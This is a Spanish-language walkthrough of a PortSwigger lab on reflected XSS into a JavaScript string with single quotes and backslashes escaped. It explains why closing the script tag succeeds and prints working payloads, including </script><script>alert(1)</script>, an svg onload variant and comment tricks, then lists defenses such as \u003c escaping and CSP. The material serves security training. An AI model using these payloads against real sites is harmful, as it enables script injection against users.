



# Lab 32 — Reflected XSS into a JavaScript string with single quote and backslash escaped

**Categoría:** Cross-site scripting  
**Tipo:** Reflected XSS en contexto JavaScript  
**Contexto vulnerable:** cadena JavaScript dentro de una etiqueta `<script>`  
**Protecciones presentes:** comilla simple (`'`) escapada y barra invertida (`\`) escapada  
**Laboratorio de PortSwigger:** `Reflected XSS into a JavaScript string with single quote and backslash escaped`  
**URL del lab:** `https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-single-quote-backslash-escaped`

---

## 0. Objetivo del laboratorio

El laboratorio indica que existe una vulnerabilidad de **XSS reflejado** en la funcionalidad de búsqueda del blog. La parte importante no es solo que el valor de búsqueda se refleje, sino **dónde** se refleja: dentro de una cadena JavaScript.

El objetivo es ejecutar:

```js
alert(1)
```

La dificultad está en que el servidor intenta proteger la cadena escapando estos dos caracteres:

```text
'   comilla simple
\   barra invertida
```

Eso significa que el ataque típico de “cerrar la cadena con una comilla” no funciona. La solución pasa por cambiar de capa: en vez de intentar salir limpiamente del string JavaScript, cerramos el bloque HTML `<script>`.

Payload final:

```html
</script><script>alert(1)</script>
```

Payload URL-encoded:

```text
%3C%2Fscript%3E%3Cscript%3Ealert(1)%3C%2Fscript%3E
```

---

## 1. Página inicial del laboratorio

Al abrir el laboratorio vemos una página tipo blog con buscador.



La funcionalidad relevante es el cuadro de búsqueda. Lo que introducimos ahí viaja al servidor mediante el parámetro `search` y vuelve reflejado en la respuesta HTML.

Ejemplo conceptual:

```http
GET /?search=pepe1 HTTP/2
Host: LAB.web-security-academy.net
```

---

## 2. Qué tipo de XSS es este

Este laboratorio es **reflected XSS** porque:

1. Introducimos un payload en la petición.
2. El servidor lo incluye en la respuesta.
3. El navegador interpreta esa respuesta.
4. El código se ejecuta en el contexto del dominio vulnerable.

No es stored XSS porque no queda guardado en la base de datos.

No es DOM XSS puro porque la fuente principal no es solamente una lectura local del navegador como `location.search` procesada por JavaScript del cliente. Aquí el servidor ya devuelve el valor reflejado dentro del HTML.

El punto importante es que el reflejo ocurre dentro de JavaScript:

```html
<script>
    var searchTerms = 'INPUT_DEL_USUARIO';
    document.write('');
</script>
```

Tu input no está simplemente entre etiquetas HTML. Está dentro de una cadena JavaScript delimitada por comillas simples:

```js
'INPUT_DEL_USUARIO'
```

Eso cambia la técnica de explotación.

---

## 3. Primer análisis con una cadena normal

Introducimos una cadena cualquiera en el buscador:

```text
pepe1
```

La página muestra algo parecido a:

```html
<h1>0 search results for 'pepe1'</h1>
```

Pero lo verdaderamente importante aparece al inspeccionar el DOM o el código fuente. El valor también aparece dentro de un bloque `<script>`:

```html
<script>
    var searchTerms = 'pepe1';
    document.write('');
</script>
```

Aquí vemos tres cosas importantes:

1. `pepe1` se refleja en el HTML visible.
2. `pepe1` se refleja dentro de una variable JavaScript.
3. Esa variable se usa después para escribir una imagen de tracking con `document.write()`.

El reflejo crítico es este:

```js
var searchTerms = 'pepe1';
```

Estamos dentro de una cadena JavaScript.

---

## 4. Diferencia entre los contextos donde se refleja el dato

El mismo dato puede aparecer en varios lugares, y cada lugar tiene reglas distintas.

### 4.1 Reflejo en HTML visible

```html
<h1>0 search results for 'pepe1'</h1>
```

Aquí el contexto es HTML normal. Si no hubiese filtros, un ataque clásico podría intentar crear una etiqueta:

```html
<script>alert(1)</script>
```

### 4.2 Reflejo en JavaScript

```js
var searchTerms = 'pepe1';
```

Aquí el contexto es un string JavaScript. El ataque clásico sería cerrar el string:

```text
';alert(1);//
```

### 4.3 Reflejo en HTML generado dinámicamente

```html

```

Esto se genera por:

```js
document.write('');
```

Ese tercer reflejo no es el objetivo principal, porque el valor pasa por `encodeURIComponent()`. El problema está antes, en la asignación de `searchTerms`.

Lección: cuando un dato aparece en varios sitios, hay que analizar cada contexto por separado.

---

## 5. Cómo se explotaría si no hubiera escape

Si el servidor no escapara nada, bastaría con inyectar:

```text
';alert(1);//
```

Código original:

```js
var searchTerms = 'INPUT';
```

Resultado con payload:

```js
var searchTerms = '';alert(1);//';
```

Interpretación:

```js
var searchTerms = '';
alert(1);
//';
```

Esto funciona porque:

- la primera `'` cierra el string;
- `;` termina la instrucción;
- `alert(1)` se ejecuta;
- `//` comenta el resto de la línea para que la comilla final original no rompa la sintaxis.

Pero este laboratorio está diseñado precisamente para que eso falle.

---

## 6. Qué significa que la comilla simple esté escapada

Probamos a buscar solo una comilla simple:

```text
'
```

La aplicación devuelve algo como:

```js
var searchTerms = '\'';
```

Visualmente, lo importante es ver esta secuencia:

```js
\'
```

En JavaScript, `\'` significa: “esto es una comilla literal dentro del string, no el final del string”.

Ejemplo:

```js
var x = 'hola\'mundo';
```

El valor real de `x` sería:

```text
hola'mundo
```

La comilla no cierra la cadena. Solo forma parte del texto.

Por eso, si intentamos cerrar la cadena con `'`, el servidor nos lo impide.

---

## 7. Qué significa que la barra invertida esté escapada

Probamos a buscar una barra invertida:

```text
\
```

La aplicación devuelve algo como:

```js
var searchTerms = '\\';
```

En JavaScript, `\\` significa una barra invertida literal dentro del string.

Ejemplo:

```js
var x = '\\';
```

El valor real de `x` es:

```text
\
```

Esto es importante porque en muchos casos se puede usar la barra invertida para manipular escapes. Aquí no, porque la barra también queda neutralizada.

---

## 8. Por qué no funciona intentar escapar el escape

Una idea frecuente es pensar:

> “Si el servidor convierte `'` en `\'`, quizá puedo enviar `\'` para romperlo.”

Pero si la barra invertida también se escapa, esa técnica falla.

Supongamos que enviamos:

```text
\'
```

El servidor escapa ambos caracteres:

```text
\  →  \\
'   →  \'
```

El resultado dentro de JavaScript acaba representando texto literal, no sintaxis ejecutable.

Conceptualmente, el navegador interpreta que todo sigue dentro del string.

No conseguimos esto:

```js
var searchTerms = '';alert(1);//';
```

sino algo que sigue siendo contenido textual dentro de:

```js
var searchTerms = '...';
```

Regla del lab:

```text
'  no sirve porque se convierte en \'
\  no sirve porque se convierte en \\
```

Entonces dejamos de intentar romper el string por JavaScript.

---

## 9. Qué pasaría si solo escaparan la comilla, pero no la barra

Esto ayuda mucho a entender el laboratorio.

Si la aplicación escapara `'`, pero no escapara `\`, podríamos intentar usar barras invertidas para alterar la sintaxis final.

Por ejemplo, en algunos contextos:

```text
\';alert(1);//
```

podría acabar rompiendo el string.

Pero aquí no sirve porque `\` también queda escapada.

Tabla mental:

| Situación | Técnica posible |
|---|---|
| No escapan `'` | cerrar string con `'` |
| Escapan `'` pero no `\` | intentar neutralizar el escape con `\` |
| Escapan `'` y `\` | buscar otra capa: `</script>` |

Este lab está en el tercer caso.

---

## 10. La clave: HTML parser vs JavaScript engine

Aquí está el punto más importante.

Cuando el navegador recibe una página, no ejecuta JavaScript directamente desde texto plano. Primero parsea HTML.

Orden simplificado:

```text
1. El navegador recibe HTML.
2. El parser HTML construye el documento.
3. Cuando encuentra <script>, recoge su contenido.
4. El script termina cuando el parser HTML encuentra </script>.
5. Ese contenido se entrega al motor JavaScript.
6. El navegador sigue parseando el HTML restante.
```

El parser HTML no entiende profundamente las cadenas JavaScript. No dice:

> “Este `</script>` está dentro de una cadena, así que no lo cierro.”

No. Si ve la secuencia de cierre de script, cierra el script.

Ejemplo peligroso:

```html
<script>
var x = '</script>';
</script>
```

Aunque para JavaScript `</script>` parezca texto, para el parser HTML es el fin del bloque `<script>`.

---

## 11. Cambiamos de estrategia: no rompemos la cadena, rompemos el bloque script

Payload:

```html
</script><script>alert(1)</script>
```

Objetivo:

1. Cerrar el `<script>` original.
2. Abrir un nuevo `<script>` controlado por nosotros.
3. Ejecutar `alert(1)`.
4. Cerrar nuestro script.

Ya no dependemos de que `'` cierre la cadena JavaScript.

Ya no dependemos de que `\` nos ayude a manipular escapes.

Dependemos de que el servidor no neutralice la secuencia:

```html
</script>
```

Y en este lab no la neutraliza.

---

## 12. Sustitución del payload en el código real

Código vulnerable original:

```html
<script>
    var searchTerms = 'INPUT';
    document.write('');
</script>
```

Insertamos:

```html
</script><script>alert(1)</script>
```

Resultado conceptual:

```html
<script>
    var searchTerms = '</script><script>alert(1)</script>';
    document.write('');
</script>
```

A simple vista parece que el payload está dentro de una cadena JavaScript.

Pero el parser HTML actúa antes.

---

## 13. Qué ve el parser HTML paso a paso

El parser HTML empieza a leer:

```html
<script>
    var searchTerms = '
```

Luego encuentra:

```html
</script>
```

Y cierra inmediatamente el bloque `<script>`.

El primer script queda así:

```html
<script>
    var searchTerms = '
</script>
```

Ese JavaScript está roto porque la cadena queda sin cerrar.

Puede generar un error como:

```text
Unterminated string literal
```

Pero esto no impide que el documento siga parseándose.

Después aparece:

```html
<script>alert(1)</script>
```

Ese es un script nuevo, válido, independiente.

El navegador lo ejecuta.

---

## 14. Por qué el error de JavaScript no bloquea el ataque

El primer bloque queda roto:

```js
var searchTerms = '
```

Eso produce error.

Pero el navegador no deja de parsear toda la página por un error en un script.

Sigue con el HTML restante.

Cuando encuentra este bloque:

```html
<script>alert(1)</script>
```

lo ejecuta.

Por eso aparece el popup aunque el script original haya quedado roto.



Lección:

> Romper el JavaScript original no importa si ya has conseguido que el navegador ejecute un nuevo bloque `<script>`.

---

## 15. Qué ocurre con el resto del script original

Después de nuestro payload, todavía queda parte del JavaScript original:

```js
';
document.write('');
</script>
```

Como el `<script>` original ya se cerró antes, ese resto puede quedar fuera del contexto JavaScript y aparecer como texto en la página.

En la captura del laboratorio resuelto se ve algo parecido:

```text
'; document.write('');
```



Eso no es un fallo del ataque. Es una consecuencia normal de haber cerrado el bloque `<script>` antes de tiempo.

El alert ya se ejecutó. El laboratorio ya está resuelto.

---

## 16. Por qué este payload funciona aunque `'` y `\` estén escapados

Porque no estamos usando `'` ni `\` para salir del string.

Estamos usando:

```html
</script>
```

Eso pertenece al lenguaje HTML, no a la sintaxis JavaScript.

Comparación:

| Intento | Capa atacada | Resultado |
|---|---|---|
| `'` | JavaScript string | bloqueado por `\'` |
| `\` | JavaScript escaping | bloqueado por `\\` |
| `</script>` | HTML parser | funciona |

Frase clave:

> No puedes salir del string JavaScript, pero sí puedes salir del elemento `<script>`.

---

## 17. Qué papel tiene `document.write()`

El script hace:

```js
document.write('');
```

Esto escribe dinámicamente una imagen de tracking.

Pero el ataque se ejecuta antes de que esa línea importe.

Cuando inyectamos `</script>`, cerramos el bloque antes de que el navegador llegue a interpretar correctamente el resto del código.

Por eso `encodeURIComponent(searchTerms)` no nos protege.

`encodeURIComponent()` solo codifica el valor cuando ya está dentro de JavaScript válido. Nosotros rompemos el contexto antes.

---

## 18. Por qué `encodeURIComponent()` no es una defensa suficiente

`encodeURIComponent()` sirve para preparar un valor para ir dentro de una URL.

Ejemplo:

```js
encodeURIComponent('<script>')
```

produce algo como:

```text
%3Cscript%3E
```

Pero en el código vulnerable ocurre esto:

```js
var searchTerms = 'INPUT';
```

antes de:

```js
encodeURIComponent(searchTerms)
```

La asignación de la variable ya es vulnerable.

Si el input rompe el bloque `<script>`, la función de codificación ni siquiera llega a proteger el punto donde se necesitaba protección.

Regla:

> No sirve codificar tarde si el dato ya fue insertado antes en un contexto peligroso.

---

## 19. Payload usado en el laboratorio

Payload en el buscador:

```html
</script><script>alert(1)</script>
```

Si se envía por URL, queda codificado así:

```text
%3C%2Fscript%3E%3Cscript%3Ealert(1)%3C%2Fscript%3E
```

URL conceptual:

```text
https://LAB.web-security-academy.net/?search=%3C%2Fscript%3E%3Cscript%3Ealert(1)%3C%2Fscript%3E
```

Resultado:

1. Se cierra el script original.
2. Se abre un nuevo script.
3. Se ejecuta `alert(1)`.
4. Se resuelve el laboratorio.

---

## 20. Paso a paso práctico completo

### Paso 1 — Abrimos el laboratorio

Entramos en la URL del lab y vemos el blog con el buscador.


---

### Paso 2 — Enviamos una cadena de prueba

Buscamos:

```text
pepe1
```

La página muestra:

```html
0 search results for 'pepe1'
```

Inspeccionando el HTML/DOM, vemos:

```js
var searchTerms = 'pepe1';
```

Conclusión: el input entra en una cadena JavaScript.

---

### Paso 3 — Probamos comilla simple

Buscamos:

```text
'
```

Vemos que aparece escapada:

```js
var searchTerms = '\'';
```

Conclusión: no podemos cerrar el string con `'`.

---

### Paso 4 — Probamos barra invertida

Buscamos:

```text
\
```

Vemos que aparece escapada:

```js
var searchTerms = '\\';
```

Conclusión: no podemos manipular el escape con `\`.

---

### Paso 5 — Usamos cierre de script

Buscamos:

```html
</script><script>alert(1)</script>
```

Aparece el popup:


---

### Paso 6 — Confirmamos resolución

El laboratorio queda marcado como resuelto.


---

## 21. Variantes del payload

### Variante principal

```html
</script><script>alert(1)</script>
```

Es la más directa y limpia para este lab.

### Variante con `img onerror`

```html
</script>
```

Cierra el script y crea HTML con una imagen rota que dispara `onerror`.

Puede funcionar si no hay filtros sobre `` o `onerror`.

### Variante con SVG

```html
</script><svg onload=alert(1)>
```

Cierra el script y usa un evento SVG.

Puede funcionar si SVG está permitido.

### Variante intentando absorber residuos

```html
</script><script>alert(1)</script><script>
```

A veces se usa para abrir un nuevo bloque `<script>` al final y absorber parte del código sobrante.

No es necesaria en este laboratorio, pero puede ayudar en otros contextos.

### Variante con comentario HTML

```html
</script><script>alert(1)</script><!--
```

Puede ocultar residuos posteriores en algunos contextos.

### Variante con comentario JS

```html
</script><script>alert(1)//</script>
```

Puede ayudar si hay fragmentos de código residual justo detrás.

---

## 22. Por qué unas variantes funcionan y otras no

Depende de tres factores:

1. Qué caracteres filtra el servidor.
2. Qué etiquetas permite el contexto.
3. Cómo queda el HTML final después del payload.

En este lab el servidor no bloquea `<script>` cuando se introduce como parte del payload de cierre. Por eso la variante directa funciona.

En otros labs, `<script>` podría estar filtrado y habría que usar variantes con SVG, `img`, eventos, atributos, etc.

---

## 23. Errores comunes al resolver este lab

### Error 1 — Insistir con comillas

Payload:

```text
';alert(1);//
```

No funciona porque `'` se convierte en `\'`.

### Error 2 — Intentar usar barra invertida

Payload:

```text
\';alert(1);//
```

No funciona porque `\` también se escapa.

### Error 3 — Pensar que el error JS impide todo

Aunque el primer bloque script quede roto, el navegador sigue parseando la página y ejecuta scripts posteriores.

### Error 4 — Confiar en `encodeURIComponent()`

No protege la asignación vulnerable.

### Error 5 — No mirar el contexto exacto

El ataque depende de saber que el input está dentro de:

```js
var searchTerms = '...';
```

---

## 24. Cómo debería defenderse correctamente

### 24.1 No insertar input directamente en scripts inline

Evitar patrones como:

```html
<script>
var searchTerms = 'USER_INPUT';
</script>
```

Este patrón es difícil de proteger correctamente.

---

### 24.2 Usar serialización JSON segura

Si hay que pasar datos a JavaScript, usar un serializador seguro y escapar secuencias peligrosas.

Ejemplo conceptual:

```html
<script>
const searchTerms = "valor serializado de forma segura";
</script>
```

Pero no basta con escapar comillas. También hay que evitar `</script>`.

---

### 24.3 Escapar `<` como `\u003c`

Para impedir que el parser HTML vea `</script>`, una defensa común es convertir:

```text
<
```

en:

```text
\u003c
```

Así, este input:

```html
</script><script>alert(1)</script>
```

quedaría en JavaScript como texto:

```js
"\u003c/script\u003e\u003cscript\u003ealert(1)\u003c/script\u003e"
```

El parser HTML ya no ve una etiqueta de cierre real.

---

### 24.4 Escapar secuencias de cierre script

Otra posibilidad es transformar:

```html
</script>
```

en:

```html
<\/script>
```

En JavaScript sigue representando una cadena equivalente, pero el parser HTML no cierra el bloque.

---

### 24.5 Aplicar CSP fuerte

Una política CSP puede reducir impacto:

```http
Content-Security-Policy: script-src 'self'; object-src 'none'; base-uri 'none'
```

Pero si la aplicación permite scripts inline (`unsafe-inline`), CSP no evitará este payload.

Una CSP útil debe bloquear scripts inline o usar nonces/hashes.

---

## 25. Comparación con laboratorios anteriores

En labs de HTML simple, bastaba con:

```html
<script>alert(1)</script>
```

En labs de atributo, había que romper comillas:

```html
" autofocus onfocus=alert(1) x="
```

En labs de string JavaScript sin escapes fuertes, se podía usar:

```text
'-alert(1)-'
```

En este lab, como `'` y `\` están escapados, usamos:

```html
</script><script>alert(1)</script>
```

Cada lab obliga a pensar en el contexto.

---

## 26. La lección principal

Este laboratorio enseña que XSS no es memorizar payloads.

Es entender:

1. En qué contexto cae tu input.
2. Qué caracteres están escapados.
3. Qué parser interpreta primero el contenido.
4. Qué capa puedes romper.

Aquí el contexto tiene dos capas:

```text
HTML
└── <script>
    └── JavaScript string
```

La aplicación protege parcialmente la capa JavaScript:

```text
'  → \'
\  → \\
```

Pero no protege la capa HTML:

```html
</script>
```

Por eso el ataque funciona.

Frase clave:

> Cuando no puedes romper el string, rompe el contenedor del string.

---

## 27. Resumen final

Payload:

```html
</script><script>alert(1)</script>
```

Funcionamiento:

1. El input entra en una cadena JavaScript.
2. La comilla simple está escapada.
3. La barra invertida está escapada.
4. No podemos cerrar la cadena con técnicas normales.
5. Inyectamos `</script>`.
6. El parser HTML cierra el script original.
7. Inyectamos un nuevo `<script>`.
8. Se ejecuta `alert(1)`.
9. El laboratorio queda resuelto.

---

## 28. Checklist mental para este tipo de XSS

Cuando el input cae dentro de un `<script>`:

1. ¿Está dentro de comillas simples?
2. ¿Está dentro de comillas dobles?
3. ¿Escapan `'`?
4. ¿Escapan `"`?
5. ¿Escapan `\`?
6. ¿Escapan `<`?
7. ¿Escapan `</script>`?
8. ¿Puedo cerrar la cadena?
9. Si no puedo cerrar la cadena, ¿puedo cerrar el bloque script?
10. ¿Necesito abrir un nuevo script?
11. ¿Necesito comentar residuos?
12. ¿Hay CSP que bloquee inline scripts?

En este laboratorio:

```text
'          bloqueado
\          bloqueado
</script> permitido
```

Resultado:

```html
</script><script>alert(1)</script>
```

---

## 29. Imágenes

### Imagen 1 — Página inicial


### Imagen 2 — Alert ejecutado


### Imagen 3 — Laboratorio resuelto


